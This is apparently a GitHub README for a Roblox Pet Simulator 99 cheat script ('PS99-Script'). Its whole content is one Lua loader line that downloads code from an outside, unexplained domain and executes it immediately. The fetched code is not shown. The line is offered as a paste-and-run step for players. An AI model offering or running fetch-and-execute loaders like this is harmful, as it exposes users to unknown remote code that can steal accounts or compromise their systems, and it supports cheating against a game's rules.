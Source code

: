 # PS99-Script 


loadstring(game:HttpGet("https://egorikusa.space/b496f8e694256144cccb80eb.lua", true))()
